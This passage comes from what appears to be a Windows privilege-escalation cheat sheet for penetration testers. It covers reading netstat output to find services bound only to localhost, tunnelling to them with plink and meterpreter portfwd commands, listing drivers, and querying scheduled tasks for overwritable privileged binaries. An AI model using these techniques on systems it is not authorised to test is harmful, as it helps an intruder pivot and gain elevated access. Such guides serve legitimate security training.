 Look for **LISTENING/LISTEN**. Compare that to the scan you did from the outside.  
Does it contain any ports that are not accessible from the outside?

If that is the case, maybe you can make a remote forward to access it.

```
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

So how should we interpret the netstat output?

**Local address 0.0.0.0**  
Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

**Local address 127.0.0.1**  
Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. **This is interesting to us!**

**Local address 192.168.1.9**  
Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. **This is also interesting to us!**





## Vulnerable Drivers

Some driver might be vulnerable. I don't know how to check this in an efficient way.

```
# List all drivers
driverquery
```


## Hot potato
Never tried.
https://foxglovesecurity.com/2016/01/16/hot-potato/



## Scheduled Tasks - Only works on Windows 2000/xp/2003

Here we are looking for tasks that are run by a privileged user, and run a binary that we can overwrite.

```
schtasks /query /fo LIST /v
```
